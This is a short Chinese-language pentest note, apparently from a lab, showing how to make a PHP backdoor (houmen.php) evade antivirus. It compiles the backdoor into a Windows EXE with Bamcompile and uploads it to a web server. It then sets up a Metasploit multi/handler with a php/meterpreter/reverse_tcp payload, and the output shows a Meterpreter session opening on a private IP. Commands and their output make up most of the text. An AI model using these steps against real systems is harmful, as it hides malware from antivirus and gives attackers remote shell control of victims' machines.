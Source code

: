 构造免杀

工具：[Release bamcompile1.21.zip · xZero707/Bamcompile (github.com)](https://github.com/xZero707/Bamcompile)

```powershell
PS D:\ProgramOthers\Security\bamcompile1.21> .\bamcompile.exe -w -c .\houmen.php .\miansha.exe

Bambalam PHP EXE Compiler/Embedder 1.21

Windowed application
Compress
Mainfile: .\houmen.php
Outfile: .\miansha.exe

Encoding and embedding .\houmen.php
Compressing final exe..
Compression done

.\miansha.exe created successfully!
```

得到免杀 EXE

![image-20220906014757932](2.assets/image-20220906014757932.png)

将其上传到 WEB 中，然后开启监听，运行miasha.exe，成功反弹

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 192.168.111.128
lhost => 192.168.111.128
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.111.128:9999 
[*] Sending stage (39282 bytes) to 192.168.111.80
[*] Meterpreter session 3 opened (192.168.111.128:9999 -> 192.168.111.80:53897 ) at 2022-09-05 13:54:37 -0400
```